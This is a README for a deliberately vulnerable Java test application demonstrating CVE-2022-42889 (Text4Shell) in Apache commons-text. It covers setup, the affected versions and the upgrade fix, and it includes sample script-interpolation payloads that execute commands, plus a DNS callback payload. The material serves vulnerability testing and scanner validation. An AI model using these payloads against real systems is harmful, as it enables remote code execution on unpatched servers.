 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 


# Maven Installation
In order to run this you will need:
* JDK 17 or above
* Maven

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Maven install to create the JAR

```
mvn clean install
```

This will create the `./target` folder and within that folder should be the JAR file `text4shell-poc-0.0.1-SNAPSHOT.jar`

3. Start the webserver

```
java -jar ./target/text4shell-poc-0.0.1-SNAPSHOT.jar
```

This will start a web server on your `localhost` listening on port `8080` by default

4. Browse to the webserver

Access the webserver at `http://localhost:8080/` and you should see the following output
```
Text4Shell POC Test -@securekomodo
Send payloads to /reflected?poc=yourpayload
OR Send payloads to /blind with payload as your userAgent
```

5. Exploit manually or perform a scan using [text4shell-scan](https://github.com/securekomodo/text4shell-scan)

Sample Exploit Payloads
```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/itworked')}
${dns:<burp collaborator host>)}
```


# Docker
Alternatively you can use Docker to be able to run this PoC:

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Docker build

```
docker build --tag=text4shell-poc .
```

3. Docker run

```
docker run -p 80:8080 text4shell-poc
```

4. Test the vulnerable app

```
http://localhost/
```

5. Attack can be performed by passing a string “${prefix:name}” like shown below:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
${dns:<burp collaborator host>)}
```

Alternatively you can validate the effectiveness of scanning tools such as[text4shell-scan](https://github.com/securekomodo/text4shell-scan)


# Are You Vulnerable?
In order for your code to be vulnerable you need to:
* Be running a version of Apache `commons-text` from version `1.5.0` up to (and not including) `1.10.0`
* Using Interpolation for your StringSubstituion (see [https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)) - note this is not super common


# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)